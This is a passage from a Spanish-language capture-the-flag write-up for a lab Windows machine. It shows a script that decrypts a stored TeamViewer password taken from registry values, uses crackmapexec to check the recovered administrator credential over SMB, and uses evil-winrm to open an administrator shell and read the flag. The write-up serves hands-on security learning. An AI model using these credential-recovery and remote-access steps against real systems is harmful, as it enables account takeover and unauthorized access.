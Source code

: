 Y ahora si ya podemos usar el Exploit y con solo activar el script, ya solo es pasarle el encriptado de **SecurityPasswordAES**:
```bash
python3 TeamViewer_Exploit.py

This is a quick and dirty Teamviewer password decrypter basis wonderful post by @whynotsecurity.
Read this blogpost if you haven't already : https://whynotsecurity.com/blog/teamviewer
 
Please check below mentioned registry values and enter its value manually without spaces.
"SecurityPasswordAES" OR "OptionsPasswordAES" OR "SecurityPasswordExported" OR "PermanentPassword"

Enter output from registry without spaces : FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
Decrypted password is :  !R3m0te!
```

Muy bien, ya tenemos la contraseña, es momento de checar si la clave función. Para esto, vamos a usar **Crackmapexec**:
```bash
crackmapexec smb 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.10.10.180    445    REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

Y si funciona, vamos a conectarnos remotamente con la herramienta **Evil Winrm**:
```batch
evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/26/2023   5:50 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```
Y ya, con esto obtenemos ambas flags y terminamos con esta máquina.
